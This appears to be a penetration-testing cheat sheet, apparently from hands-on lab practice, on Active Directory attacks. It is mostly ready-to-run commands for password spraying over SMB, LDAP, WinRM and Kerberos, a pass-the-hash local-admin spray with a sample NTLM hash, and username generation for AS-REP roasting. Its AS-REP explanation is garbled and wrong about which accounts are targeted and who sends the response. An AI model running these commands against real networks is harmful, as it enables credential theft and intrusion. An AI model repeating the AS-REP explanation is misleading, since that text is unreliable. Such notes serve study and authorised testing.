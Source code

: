 ````bash
crackmapexec smb 10.10.10.169 -u users.txt -p password.txt --continue-on-success
netexec ldap <target-ip> -u users.txt -p password.txt --continue-on-succes
netexec smb <target-ip> -u users.txt -p password.txt --continue-on-succes
netexec winrm <target-ip> -u users.txt -p password.txt --continue-on-succes
kerbrute passwordspray -d wharesito.local --dc 172.16.5.5 valid_users.txt  Welcome1
````
#### Bash oneliner 
---
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### Local Admin Spraying with CrackMapExec
---
```bash
netexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### Passsowrd sprying from windows
---
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
### Kerberos pre-authentication vulnerability
---
#### Username-anarchy
---
**Username-anarchy** is a tool commonly used in **Active Directory enumeration** during security assessments. It is designed to find **usernames** based on common naming conventions used within organizations. The tool tries to identify likely usernames by leveraging patterns such as the combination of first names, last names, initials, and common organizational naming formats.

````bash
./username-anarchy --input-file /home/whare/hackthebox/maquinas/saune/users.txt --select-format first,flast,first.last,firstl > test_users.txt
````
#### AS-REP attack
---
An **AS-REP attack** exploits the **Kerberos authentication protocol** in Active Directory environments, targeting **user accounts** without pre-existing passwords or **non-Microsoft accounts**. When these accounts attempt to authenticate, they send an **AS-REP (Authentication Service Response)** to the domain controller, which is **encrypted**. This response can be intercepted and cracked offline to reveal the user's password, making this attack particularly effective against accounts without strong protections in place.

**Target**: User accounts, especially those without passwords or those using non-Microsoft identities.
